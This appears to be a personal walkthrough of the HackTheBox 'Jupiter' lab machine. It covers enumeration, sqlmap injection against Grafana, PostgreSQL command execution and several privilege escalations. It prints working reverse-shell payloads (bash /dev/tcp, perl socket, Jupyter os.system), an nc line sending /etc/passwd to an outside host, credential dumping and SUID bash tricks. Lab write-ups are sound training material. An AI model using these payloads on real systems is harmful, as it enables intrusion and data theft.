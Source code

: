 # Jupiter

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP nginx 1.18.0 (Ubuntu)

jupiter.htb directories

/.htaccess            (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]

/sass indicates use of [sass-lang](https://sass-lang.com/guide/). Potential vulnerabilities (RCE)

Subdomain enumeration found kiosk subdomain, a grafana dashboard. Potential parameter injection

Grafana version 9.5.2, CVE-2023-0507 (stored XSS core plugin GeoMap), CVE-2023-2801 (Crash endpoint)

kiosk.jupiter.htb directories

/login                (Status: 200) [Size: 34390]
/metrics              (Status: 200) [Size: 129877]
/monitoring           (Status: 200) [Size: 34390]
/playlists            (Status: 200) [Size: 34390]
/robots.txt           (Status: 200) [Size: 26]
/signup               (Status: 200) [Size: 34390]
/styleguide           (Status: 200) [Size: 34390]
/verify               (Status: 200) [Size: 34390]

/public/public        (Status: 302) [Size: 31] [--> /public/]
/public/app           (Status: 302) [Size: 35] [--> /public/app/]
/public/build         (Status: 302) [Size: 37] [--> /public/build/]
/public/emails        (Status: 302) [Size: 38] [--> /public/emails/]
/public/fonts         (Status: 302) [Size: 37] [--> /public/fonts/]
/public/img           (Status: 302) [Size: 35] [--> /public/img/]
/public/lib           (Status: 302) [Size: 35] [--> /public/lib/]
/public/locales       (Status: 302) [Size: 39] [--> /public/locales/]
/public/maps          (Status: 302) [Size: 36] [--> /public/maps/]
/public/robots.txt    (Status: 200) [Size: 26]
/public/test          (Status: 302) [Size: 36] [--> /public/test/]
/public/views         (Status: 302) [Size: 37] [--> /public/views/]
/public/vendor        (Status: 302) [Size: 38] [--> /public/vendor/]

/api/live/ws looks like a websocket connection, when navigating to it the respoinse is bad request

/api/ds/query sql injection

found user grafana_viewer

PostgreSQL version 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1)

```
sqlmap -r grafana.sql -p "rawSql" --dump
sqlmap -r grafana.sql -p "rawSql" --dbs
sqlmap -r grafana.sql -p "rawSql" --tables
sqlmap -r grafana.sql -p "rawSql" --columns
sqlmap -r grafana.sql -p "rawSql" --users
sqlmap -r grafana.sql -p "rawSql" --passwords
sqlmap -r grafana.sql -p "rawSql" --file-read "/etc/passwd"
```

Tried dumping the moons DB but contains 160+ entries so very time consuming and ultimately useless. Used the 
following write ups to discover the PostgreSQL RCE query:

[HTB Jupiter write up](https://prathapilango.medium.com/jupiter-hackthebox-machine-writeup-2023-c2ee66cbfe0b)
[HTB-Jupiter](https://sawmj.github.io/posts/HTB-Jupiter/)

### Exploitation

Reverse shell through SQL query as postgres user

**pentest monkey PosgreSQL cheatsheet**

`CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6’, ‘system’ LANGUAGE ‘C’ STRICT; SELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080’);`

**Write-up payloads**

`CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.14.x/4444 0>&1\"'`

```
CREATE TABLE files(cmd_output text);

COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"10.10.16.67:1339\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- Note the backslash to escape the double quote to be a correct format of JSON
```

Privesc to juno through network-simulation.yml file in /dev/shm, found with pspy

Edit server and host processes to create a bash binary with juno's permissions

```
/usr/bin/cp /bin/bash /tmp/bash

/usr/bin/chmod u+s /tmp/bash 
```

Add an ssh key with ssh-keygen or use the shadow-simulation.sh to get a reverse shell to access the user.txt
file as a member or the juno group

As juno check for files owned by jovian

`find / -user jovian 2>/dev/null`

This shows the /opt/solar-flare directory containing logs for the locally hosted jupyter notebook

Use ssh or chisel to access the jupyter notebook

`ssh -L 8888:127.0.0.1:8888 -i juno_id_rsa juno@10.10.11.216`

In the log files there are links to the notebook containing the access token

Use a new notebook to gain a reverse shell as jovian

`import os;os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'")`

Running `sudo -l` as jovian shows we have sudo access to `/usr/local/bin/sattrack`

When we execute sattrack it complains about a missing config file, use strings and grep to find references:

`strings /usr/local/bin/sattrack | grep config`

We find `/tmp/config.json` as a result. Searching for config.json shows a location of an example config file
at `/usr/local/share/sattrack/config.json`

Changing the `tlesources` to `file://path/to/file` gives us read access to root files
